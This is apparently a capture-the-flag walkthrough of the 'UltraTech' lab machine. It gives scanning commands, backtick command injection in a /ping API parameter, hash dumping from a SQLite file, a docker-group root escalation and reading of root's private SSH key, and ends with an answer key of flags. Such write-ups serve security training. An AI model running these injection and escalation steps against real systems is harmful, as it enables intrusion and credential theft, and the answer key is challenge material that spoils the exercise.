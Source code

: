 # UltraTech - Medium

```shell
rustscan -a 10.10.153.216 --range 0-65535 --ulimit 5000 -- -sV

gobuster dir -u http://10.10.153.216:8081 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak

gobuster dir -u http://10.10.153.216:31331 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak

ssh r00t@10.10.153.216

ls -la

#searching for privesc vectors

#on attacker machine
python3 -m http.server

#back to SSH session
wget http://10.10.153.216:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#docker exploit from GTFObins
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
#this gives alpine not found error

docker images
#we have bash image here, that can be used

docker run -v /:/mnt --rm -it bash chroot /mnt sh
#this gives us root shell

cd /root

ls -la

cd .ssh

ls -la

cat id_rsa
#we can get root user's private SSH key here
```

```markdown
Open ports & services:

  * 21 - ftp - vsftpd 3.0.3
  * 22 - ssh - OpenSSH 7.6p1
  * 8081 - http - Node.js
  * 31331 - http - Apache httpd 2.4.29 (Ubuntu)

We can start enumerating web servers on both ports for directories while we explore the websites.

The webpage on port 8081 has the text "UltraTech API v0.1.3" and nothing else.

The webpage on port 31331 contains a generic webpage for the UltraTech company.

Directories on port 8081:

  * /auth
  * /ping

Directories on port 31331:

  * /css
  * /favicon.ico
  * /images
  * /index.html
  * /js
  * /partners.html
  * /robots.txt
  * /what.html

On port 31331, /js/api.js includes some logic behind the API on port 8081.
Furthermore, on /partners.html, we have a login page.

On /partners.html, when we attempt to login with an username and password, it redirects to the /auth page on port 8081 with a response.

Using the given hint, we are told not to spend too much time on /auth, so we navigate to the API code on /js/api.js

It contains a line of code:

    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`

We can try command execution by inserting our commands in the 'ip' parameter.

Using <http://10.10.153.216:8081/ping?ip=whoami> does not work; however if we use <http://10.10.153.216:8081/ping?ip=`whoami`> by adding backticks like the example snippet, we get an output in the error message.

From "ip=`ls -la`", we get to know the name of the database file used.

Using "ip=`cat utech.db.sqlite`", we get a couple of hashes for two users - r00t and admin.

The MD5 hash can be cracked with the help of online services.

Now we have the credentials r00t:n100906, we can SSH into the machine with this.

After SSHing, we need to find for privesc vectors; we can do so using linpeas.sh

We are part of the dockers group, so we can exploit that; we can use the exploit from GTFObins.

We need to make slight changes to it since we do not have the alpine image locally.

We eventually get shell as root using the bash image found.

root's private SSH key can be found in /root/.ssh/id_rsa
```

1. Which software is using the port 8081? - Node.js

2. Which other non-standard port is used? - 31331

3. Which software using this port? - Apache

4. Which GNU/Linux distribution seems to be used? - Ubuntu

5. The software using the port 8081 is a REST api, how many of its routes are used by the web application? - 2

6. There is a database lying around, what is its filename? - utech.db.sqlite

7. What is the first user's password hash? - f357a0c52799563c7c7b76c1e7543a32

8. What is the password associated with this hash? - n100906

9. What are the first 9 characters of root user's private SSH key? - MIIEogIBA
